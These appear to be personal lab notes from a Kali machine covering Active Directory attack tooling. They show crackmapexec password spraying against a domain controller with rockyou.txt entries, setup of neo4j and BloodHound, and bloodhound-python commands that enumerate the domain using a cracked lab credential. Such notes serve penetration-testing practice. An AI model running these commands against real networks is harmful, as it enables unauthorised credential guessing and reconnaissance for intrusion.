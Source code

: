 # Working with a Kali machine

- Used crackmapexec to crack user:pass combinations for low level users on the DC from files we created.

  added random passwords from rockyou.txt into passwords.txt\
  added random users from the user.txt file

- To run properly crackmapexec command had to configure the /etc/hosts file and the /etc/resolve.conf to add the DC address to it
  crackmapexec smb <ip> -u users.txt -p passwords.txt\

  Continue enumerating even when the user:pass combination has been found for a user\
  crackmapexec smb 192.168.8.155 -u users.txt -p passwords.txt --continue-on-success

- Getting ready for bloodhound installing with neo4j  
  sudo echo "deb http://httpredir.debian.org/debian stretch-backports main" | sudo tee -a /etc/apt/sources.list.d/stretch-backports.list\
  sudo apt-get update\
  wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -\necho 'deb https://debian.neo4j.com stable latest' >     /etc/apt/sources.list.d/neo4j.list\nsudo apt-get update\
  sudo apt-get install apt-transport-https\
  sudo apt-get install neo4j

  Access the gui (localhost:7474) and changed the default password for neo4j\


- Installed bloodhound latest release from https://github.com/BloodHoundAD/BloodHound/releases
  ./BloodHound\

  ...Starting bloodhound....
  
- Sharphound python version from github https://github.com/fox-it/BloodHound.py
  pip install bloodhound\
  added bloodhound-python to the $PATH\
  /home/user/.local/bin\
  subl ~/.zshrc\
  source ~/.zshrc\
  added /home/user/.local/bin to the file\
  
  Running the command with the default username and password we had found with crackmapexec earlier\
  bloodhound-python -u adavies -p eminem -dc dc1.xyz.com --disable-autogc -d xyz.com\
  
  To get All\
  bloodhound-python -u adavies -p eminem -dc dc1.xyz.com --disable-autogc -d xyz.com -c All\

- the output generates multiple .json files we can use to upload into the bloodhound GUI and analyze the AD users,groups, and other parameters
- Installed bloodhound, neo4j, and a python version of sharphound (bloodhound-python)  
